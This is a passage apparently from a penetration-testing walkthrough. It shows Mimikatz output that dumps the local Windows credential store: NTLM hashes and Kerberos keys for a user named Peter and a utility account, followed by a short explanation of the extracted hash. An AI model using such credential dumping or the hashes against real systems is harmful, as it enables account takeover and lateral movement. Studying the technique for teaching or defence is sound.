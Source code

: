 ```code
Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 65e1e05750d84270c88a7be57db6c9f2

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : fb0e347db585daa6da7e6debedf7febfab1bf57b68a6476e2dccf432bdcdfeaa
      aes128_hmac       (4096) : 45e55fb7d5c8d75c5d7d428ba25b9ec5
      des_cbc_md5       (4096) : 62e37afd38a816c8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 62e37afd38a816c8


RID  : 000003e9 (1001)
User : Peter
  Hash NTLM: 7ce21f17c0aee7fb9ceba532d0546ad6

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 5682742cf07afea3995641c57d910899

* Primary:Kerberos-Newer-Keys *
    Default Salt : DESKTOP-1L6MJDOPeter
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 216d42d2809357b8a21c99a1a3553751c6035f2c542e2197fb26d365104fdcd7
      aes128_hmac       (4096) : dc7a8cb8c90ded7ae0033e6711d70adf
      des_cbc_md5       (4096) : 523885e0a2fe5b1c
    OldCredentials
      aes256_hmac       (4096) : 546a1f12ede2de2c7ef888e191bd783f61dfb11d57c8cf1ac2ac9a704bccb8fb
      aes128_hmac       (4096) : 04aefe0e7fd029d47bc46c94f8202bec
      des_cbc_md5       (4096) : c7a126b5e37a43f7
    OlderCredentials
      aes256_hmac       (4096) : 546a1f12ede2de2c7ef888e191bd783f61dfb11d57c8cf1ac2ac9a704bccb8fb
      aes128_hmac       (4096) : 04aefe0e7fd029d47bc46c94f8202bec
      des_cbc_md5       (4096) : c7a126b5e37a43f7

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : DESKTOP-1L6MJDOPeter
    Credentials
      des_cbc_md5       : 523885e0a2fe5b1c
    OldCredentials
      des_cbc_md5       : c7a126b5e37a43f7


mimikatz # 
```
The NT hash of the user **Peter** is **7ce21f17c0aee7fb9ceba532d0546ad6**, the Administrator user is disabled and does not have any credentials configured... That is some of the info we have successfully extracted. The **LM** hash is not saved by default in newer Windows versions.
